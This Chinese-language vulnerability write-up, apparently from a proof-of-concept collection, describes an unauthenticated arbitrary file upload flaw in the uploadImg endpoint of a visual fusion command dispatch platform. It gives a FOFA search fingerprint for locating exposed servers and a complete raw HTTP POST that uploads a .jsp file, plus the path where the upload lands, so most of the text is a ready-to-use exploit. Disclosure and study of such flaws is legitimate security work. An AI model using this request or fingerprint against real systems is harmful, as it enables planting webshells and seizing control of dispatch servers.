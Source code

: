 # 可视化融合指挥调度平台uploadImg存在任意文件上传漏洞

# 一、漏洞简介
可视化融合指挥调度平台以标准SIP协议为核心，提供强大的调度、广播、视频、报警、预案、电子地图等功能模块，可实现多级架构管理，满足不同行业调度需求。可视化融合指挥调度平台 uploadImg 接口处存在任意文件上传漏洞，未经身份验证的攻击者可利用此漏洞上传恶意后门文件，导致服务器权限被控。

# 二、影响版本
+ 可视化融合指挥调度平台

# 三、资产测绘
+ fofa`body="base/searchInfoWindow_min.css"`
+ 特征

![1712505801249-3dd9f411-b3c7-493b-af07-29fd9e07b090.png](./img/_XdfGiCW7VD3y65_/1712505801249-3dd9f411-b3c7-493b-af07-29fd9e07b090-227344.png)

# 四、漏洞复现
```plain
POST /dispatch/layuiIm/uploadImg HTTP/1.1
Host: 
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7ctER307B0RaQwOp
Content-Length: 151

------WebKitFormBoundary7ctER307B0RaQwOp
Content-Disposition: form-data; name="file";filename="1.jsp"

1
------WebKitFormBoundary7ctER307B0RaQwOp--
```

![1713789052420-7e9a2d81-065b-4060-ac9e-7199dc69b680.png](./img/_XdfGiCW7VD3y65_/1713789052420-7e9a2d81-065b-4060-ac9e-7199dc69b680-543057.png)

```plain
/media/png/2024/4/22/1713787261034.jsp
```

![1713789069296-23477b7b-48af-4956-ab92-aa404dc58516.png](./img/_XdfGiCW7VD3y65_/1713789069296-23477b7b-48af-4956-ab92-aa404dc58516-570969.png)



> 更新: 2024-04-22 20:32:03  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bya2i7xgu6phi6t0>